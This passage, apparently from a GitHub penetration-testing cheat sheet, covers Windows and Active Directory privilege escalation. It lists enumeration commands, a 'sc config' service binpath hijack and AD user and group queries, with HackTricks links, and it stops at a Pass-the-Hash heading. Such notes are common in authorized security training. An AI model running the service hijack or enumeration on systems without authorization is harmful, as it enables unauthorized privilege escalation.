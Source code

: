 **Resources:**
- [HackTricks - SUID Exploitation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux/sudo-and-suid)

### Windows Privilege Escalation

#### Enumeration

- Check for Misconfigurations:
  ```powershell
  whoami /priv
  ```
- Search for Unquoted Service Paths:
  ```cmd
  wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\\windows\\"
  ```

**Resources:**
- [HackTricks - Windows Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

#### Exploitation

- Exploit Weak Service Permissions:
  ```cmd
  sc config <service_name> binpath= "cmd.exe /k whoami > C:\tmp\output.txt"
  ```

**Resources:**
- [HackTricks - Service Exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/service-permissions-exploitation)

### Active Directory Enumeration and Exploitation

#### Enumeration

- List Domain Users:
  ```powershell
  Get-ADUser -Filter * | Select-Object Name
  ```
- List Domain Groups:
  ```powershell
  Get-ADGroup -Filter * | Select-Object Name
  ```
- Enumerate Group Membership:
  ```powershell
  Get-ADGroupMember -Identity "Domain Admins"
  ```

**Resources:**
- [HackTricks - Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)

#### Pass-the-Hash
